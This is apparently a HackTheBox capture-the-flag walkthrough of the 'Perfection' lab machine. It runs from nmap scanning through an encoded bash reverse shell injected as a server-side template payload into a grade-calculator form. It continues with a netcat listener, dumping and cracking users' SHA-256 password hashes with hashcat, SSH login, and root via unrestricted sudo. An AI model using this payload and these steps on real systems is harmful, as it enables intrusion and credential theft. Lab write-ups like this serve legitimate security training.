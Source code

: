 # 🦸 Perfection HackTheBox Walkthrough!!

<figure><img src=".gitbook/assets/1 _nlKfQW16KC1ieR3EL8vwA.png" alt=""><figcaption></figcaption></figure>

Add IP into the host file

```
nano /etc/hosts
```

<figure><img src=".gitbook/assets/Screenshot 2024-03-09 at 16-28-25 Weighted Grade Calculator.png" alt=""><figcaption><p><a href="http://10.10.11.253/">http://perfection.htb/</a></p></figcaption></figure>

**NMAP RESULT**

```
┌──(Batman㉿GC)-[~]
└─$ nmap -A 10.10.11.253 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 16:26 IST
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.17 seconds
```

**GAINING ACCESS**

* Generate Payload

Using hURL command to encode and decode payloads showcases the manipulation of data to exploit web application vulnerabilities. The payload crafted for the Weighted Grade Calculator application is designed to execute a reverse shell command, taking advantage of any potential server-side code execution vulnerabilities.

```
┌──(Batman㉿GC)-[~]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.14.69/1337 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.14.69/1337 0>&1                                                                  
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA+JjE=
```

```
┌──(Batman㉿GC)-[~]
└─$  hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA+JjE="

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA+JjE=                                                      
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA%2BJjE%3D
```

We have to inject URL-encoded payload to the POST request of "Calculate your weighted grade".

<figure><img src=".gitbook/assets/Screenshot 2024-03-09 at 5.26.37 PM.png" alt=""><figcaption></figcaption></figure>

`grade1=1&weight1=100&category2=N%2FA&grade2=1&weight2=0&category3=N%2FA&grade3=1&weight3=0&category4=N%2FA&grade4=1&weight4=0&category5=N%2FA&grade5=1&weight5=0&category1`**`=a%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA%2BJjE%3D |+base64+-d+|+bash");%25>1`**

Also, enable a Netcat listener in the terminal to get a reverse shell connection.

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.69] from (UNKNOWN) [10.10.11.253] 57316
bash: cannot set terminal process group (984): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ ls
ls
main.rb
public
views
susan@perfection:~/ruby_app$ cd /home
cd /home
susan@perfection:/home$ ls
ls
susan
susan@perfection:/home$ cd susan
cd susan
susan@perfection:~$ ls
ls
Migration
ruby_app
user.txt
susan@perfection:~$ cat user.txt
cat user.txt
2de7aca06461cfe--------
susan@perfection:~$ 
```

On further enumerations, we can find hashes of other users

```
susan@perfection:~$ cd Migration
cd Migration
susan@perfection:~/Migration$ ls
ls
pupilpath_credentials.db
susan@perfection:~/Migration$ strings pupilpath_credentials.db
strings pupilpath_credentials.db
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518------------------------
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76-------------------------
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee4-------------------------
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f-------------------------
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d6-------------------------
```

Now copy all the hashes we found.

**CRACK THE HASH \[HASHCAT]**

Using Hashcat crack the password of Susan.

```
┌──(Batman㉿GC)-[~]
└─$ hashcat -m 1400 hash.txt  -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
<HASH OF SUSAN> :susan_nasus_413XXXXXXX
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Sat Mar  9 17:38:59 2024 (1 min, 50 secs)
Time.Estimated...: Sat Mar  9 17:40:49 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2310.9 kH/s (0.47ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 324559872/1000000000 (32.46%)
Rejected.........: 0/324559872 (0.00%)
Restore.Point....: 324556800/1000000000 (32.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_126824210 -> susan_nasus_296471462

Started: Sat Mar  9 17:38:56 2024
Stopped: Sat Mar  9 17:40:50 2024
```

Now use the password to log in with user Susan.

```
┌──(Batman㉿GC)-[~]
└─$ ssh susan@10.10.11.253
susan@10.10.11.253's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat Mar  9 12:13:27 PM UTC 2024

  System load:           0.1611328125
  Usage of /:            51.0% of 5.80GB
  Memory usage:          6%
  Swap usage:            0%
  Processes:             246
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.253
  IPv6 address for eth0: dead:beef::250:56ff:feb9:d2ee


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
susan@perfection:~$
```

&#x20;**PRIVILEGE ESCALATION**

```
susan@perfection:~$ sudo -l
[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

Here user Susan has permission to log in with the root

```
susan@perfection:~$ sudo su
root@perfection:/home/susan# cd /root
root@perfection:~# cat root.txt
eb33392e900c84405d------------
root@perfection:~#
```

Hurray!! Got the root access.

<figure><img src=".gitbook/assets/bmc-full-logo-no-background.png" alt="" width="375"><figcaption><p>https://www.buymeacoffee.com/b4tm4n</p></figcaption></figure>
